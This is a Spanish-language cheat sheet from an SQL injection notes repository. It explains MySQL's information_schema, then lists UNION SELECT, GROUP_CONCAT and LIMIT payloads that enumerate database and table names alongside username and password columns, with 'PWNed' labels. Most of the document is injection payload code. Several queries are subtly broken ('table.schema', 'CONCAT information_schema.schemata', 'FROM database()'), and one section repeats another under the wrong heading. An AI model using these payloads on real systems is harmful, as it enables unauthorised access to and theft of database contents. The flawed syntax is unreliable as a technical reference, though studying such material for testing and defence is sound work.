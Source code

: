 # SQLi: schema, schemata & DIOS

## Introducción

## Esquema `information_schema`

El esquema `information_schema` es **un esquema especial que se encuentra en la mayoría de los sistemas de gestión de bases de datos (DBMS)**, incluidos `MySQL`, `PostgreSQL`, `Oracle` y otros. Este esquema contiene información sobre los metadatos de la base de datos, como `tablas`, `columnas`, `restricciones`, `privilegios` y más.

Dentro del esquema `information_schema`, la **tabla `schemata`** es una **tabla estándar que almacena información sobre los esquemas** (bases de datos) presentes en el sistema. La columna `schema_name` de esta tabla contiene los nombres de los esquemas. 

- Cuando se ejecuta el query [`SELECT schema_name FROM information_schema.schemata;`](https://github.com/Fz3r0/Fz3r0_-_SQLi/blob/main/SQLi-Mega-Hints/02-SQLi-schema-schemata-&-DIOS.md#-query-basic), se está accediendo a esta tabla específica en el esquema `information_schema` y seleccionando la columna `schema_name`. Como esta tabla está presente en todos los DBMS compatibles con el estándar `information_schema`, **este query funciona en la mayoría de los casos para obtener una lista de los nombres de los esquemas en la base de datos.**

Es importante tener en cuenta que la disponibilidad y el contenido exacto de la tabla `schemata` pueden variar ligeramente según el DBMS utilizado, pero en general, esta tabla se encuentra presente en la mayoría de los sistemas de gestión de bases de datos y proporciona información sobre los esquemas en la base de datos.

---

- `information_schema` **NO** es una base de datos en sí misma, sino un esquema especial que se encuentra en la mayoría de los sistemas de gestión de bases de datos. Es un componente estándar que proporciona información sobre los metadatos de la base de datos.

- Dentro del esquema `information_schema`, hay varias tablas que almacenan información sobre diferentes aspectos de la base de datos, como `tablas`, `columnas`, `restricciones`, `privilegios`, `rutinas almacenadas`, etc. Estas tablas tienen nombres como `schemata`, `tables`, `columns`, `constraints`, `privileges`, entre otros:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/32909a84-ebfe-4ba7-87a4-42a708c6b8d5)

---

<br>

<br>

<br>

<br>

## 💀 Basics: `information schema`

### 💉 Query basic

````sql
## Schema Name AKA Databases Names Dump
select schema_name CONCAT information_schema.schemata;
````

---

### 💉 Group Concat

#### Basic

````sql
## Group Concat Basic Query
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Limitando a 1 en caso que solo deje arrojar un resultado
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata limit 0,1;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT GROUP_CONCAT(schema_name SEPARATOR ' : ') FROM information_schema.schemata;

## Mini DIOS
SELECT GROUP_CONCAT('Database PWNed: ',schema_name) FROM information_schema.schemata;
````

---

### 💉 Concat

#### Basic

````sql
## Concat Basic Query
SELECT concat(schema_name) FROM information_schema.schemata;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT concat(schema_name, ' : ') FROM information_schema.schemata;

## Mini DIOS: DB Enum (schema enum)
SELECT concat('Database PWNed : ',(schema_name)) FROM information_schema.schemata;
````

---

<br>

<br>

<br>

<br>

## 💀 Query Basics: `Union` + `Group Concat`

### `Union Select` Progression:

````sql
## Original example v1:
select username,password from users;

## Original example v2:
select username,password from users where username = 'F0n3';

## Basic Union Select (v1)
select username,password from users union select 1,2;

## Condition Union Select (v2):
select username,password from users where username = 'F0n3' union select 1,2;

## Condition Union Select, strings a palcer (v2):
select username,password from users where username = 'F0n3' union select 'izquierda','derecha';
````

---

<br>

<br>

<br>

<br>

## 💀 `schema_name`: Databases Names Enum

### 💉 `Union Select` + `schema_name`

- `Recordatorio`: El `UNION SELECT` en ocasiones necesita de un `LIMIT` en caso que haya error en la visualización.

````sql
##     Tip: básicamente se inserta el basic query (SELECT schema_name FROM information_schema.schemata;) dentro de un UNION pero se le quita el SELECT para que no se duplique ;)

## Basic Union Select (v1)
SELECT username,password FROM users UNION SELECT 1,schema_name FROM information_schema.schemata;

## Condition Union Select (v2):
SELECT username,password FROM users where username = 'F0n3' UNION SELECT 1,schema_name FROM information_schema.schemata;

## Condition Union Select (v2) + LIMIT:
SELECT username,password FROM users WHERE username = 'F0n3' UNION SELECT 1,schema_name FROM information_schema.schemata LIMIT 0,1;
SELECT username,password FROM users WHERE username = 'F0n3' UNION SELECT 1,schema_name FROM information_schema.schemata LIMIT 1,1;
SELECT username,password FROM users WHERE username = 'F0n3' UNION SELECT 1,schema_name FROM information_schema.schemata LIMIT 2,1;

## Condition Union Select (v2) + LIMIT grupal (casi no se usa, los agrupa dependiendo el número):
SELECT username,password FROM users WHERE username = 'F0n3' UNION SELECT 1,schema_name FROM information_schema.schemata LIMIT 0;
SELECT username,password FROM users WHERE username = 'F0n3' UNION SELECT 1,schema_name FROM information_schema.schemata LIMIT 1;
SELECT username,password FROM users WHERE username = 'F0n3' UNION SELECT 1,schema_name FROM information_schema.schemata LIMIT 2;
````

---

### 💉 `Group Concat` + `Union Select` + `schema_name`

- `Recordatorio`: Group Concat no necesita `LIMIT` ya que se devuelve en una sola linea ;)

````sql
##     Tip: básicamente se inserta el query de union select un "GROUP_CONCAT" (GROUP CONCAT(schema_name)) dentro de un UNION pero se le quita el SELECT para que no se duplique ;)

## Basic Union Select (v1)
SELECT username,password FROM users UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Condition Union Select (v2):
SELECT username,password FROM users WHERE username = 'F0n3' UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.schemata;
````

---

<br>

<br>

<br>

<br>

## 💀 `table_name`: Tables Names Enum

### 💉 `Union Select` + `schema_name`

- `Recordatorio`: El `UNION SELECT` en ocasiones necesita de un `LIMIT` en caso que haya error en la visualización.

````sql
##     Tip: básicamente se inserta el basic query (SELECT table_name FROM information_schema.tables FROM database();) dentro de un UNION pero se le quita el SELECT para que no se duplique ;)
##     OJO!!! Se pone el "WHERE table.schema = database()" [o el nombre de la base de datos] de lo contrario dumpea las ablas de TODAS las DB. 

## Basic Union Select (v1) (Dumpeando todas las tablas de todas las DB)
SELECT username,password FROM users UNION SELECT 1,table_name FROM information_schema.tables;
## Basic Union Select (v1) (Dumpeando únicamente las tablas de: database())
SELECT username,password FROM users UNION SELECT 1,table_name FROM information_schema.tables WHERE table.schema = database();
SELECT username,password FROM users UNION SELECT 1,table_name FROM information_schema.tables WHERE table.schema = "Fz3r0_Corporations";

## Condition Union Select (v2) (Todas las tablas de Todas las DB)
SELECT username,password FROM users where username = 'F0n3' UNION SELECT 1,table_name FROM information_schema.tables;
## Condition Union Select (v2) (Dumpeando únicamente las tablas de: database())
SELECT username,password FROM users where username = 'F0n3' UNION SELECT 1,table_name FROM information_schema.tables WHERE table.schema = database();
SELECT username,password FROM users where username = 'F0n3' UNION SELECT 1,table_name FROM information_schema.tables WHERE table.schema = "Fz3r0_Corporations";

## Condition Union Select (v2) + LIMIT:
SELECT username,password FROM users WHERE username = 'F0n3' UNION SELECT 1,table_name FROM information_schema.tables WHERE table.schema = database() LIMIT 0,1;
SELECT username,password FROM users WHERE username = 'F0n3' UNION SELECT 1,table_name FROM information_schema.tables WHERE table.schema = database() LIMIT 1,1;
SELECT username,password FROM users WHERE username = 'F0n3' UNION SELECT 1,table_name FROM information_schema.tables WHERE table.schema = database() LIMIT 2,1;


````

---

### 💉 `Group Concat` + `Union Select` + `schema_name`

- `Recordatorio`: Group Concat no necesita `LIMIT` ya que se devuelve en una sola linea ;)

````sql
##     Tip: básicamente se inserta el query de union select un "GROUP_CONCAT" (GROUP CONCAT(schema_name)) dentro de un UNION pero se le quita el SELECT para que no se duplique ;)

## Basic Union Select (v1)
SELECT username,password FROM users UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Condition Union Select (v2):
SELECT username,password FROM users WHERE username = 'F0n3' UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.schemata;
````

